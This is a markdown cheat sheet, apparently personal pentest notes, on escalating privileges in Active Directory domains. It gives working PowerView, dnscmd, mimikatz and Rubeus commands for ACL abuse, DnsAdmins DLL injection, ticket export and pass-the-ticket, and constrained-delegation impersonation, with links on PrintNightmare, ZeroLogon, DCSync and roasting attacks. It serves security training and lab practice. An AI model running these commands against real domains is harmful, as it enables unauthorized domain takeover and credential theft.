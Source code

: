 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

* [GenericWrite Exploit](https://zflemingg1.gitbook.io/undergrad-tutorials/active-directory-acl-abuse/genericwrite-exploit)
* [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse)


## PrintNightmare (CVE-2021-34527)

* [Explaining and Exploiting PrintNightmare](https://youtu.be/zL2BXW0giBc)
* [Playing with PrintNightmare](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)


## PrivEsc - DNS Admins 

[DNS Admins PrivEsc Guide by iRedTeam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
```powershell
#make a privescl.dll with msfvenom
rundll32.exe .\privesc.dll,DnsPluginInitialize

dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll

Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

## DCSync Attack

* [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729) 
* [DC Sync Attacks With Secretsdump.py](https://youtu.be/QfyZQDyeXjQ)

## ZeroLogon (CVE-2020-1472)

* [CrowdStrike's Guide to ZeroLogon](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
* [TheCyberMentor's Video](https://www.youtube.com/watch?v=6xMGsdD-ArI/)

## Unconstrained delegation

* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

```powershell
mimikatz# sekurlsa::tickets
mimikatz# mimikatz::tickets /export
mimikatz# kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```


## Constrained Delegation

```powershell
PS C:\> Rubeus.exe tgtdeleg

# ticket is the base64 ticket we get with `rubeus's tgtdeleg`
PS C:\> Rubeus.exe s4u /ticket:doIFCDC[...]TE9DQUw= /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
```

## Kerberoasting

* [Attack Tutorial: Kerberoasting](https://youtu.be/beRDcvBwTBw)
* [Active Directory - Kerberoasting by Conda](https://youtu.be/-3MxoxdzFNI)
* [Kerberoasting Explained | Kerberos Authentication](https://youtu.be/ajOr4pcx6T0)

## ASPRoasting

* [Harmjoy's Roasting AS-REPs Tutorial](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
* [CRACKING ACTIVE DIRECTORY PASSWORDS WITH AS-REP ROASTING](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)
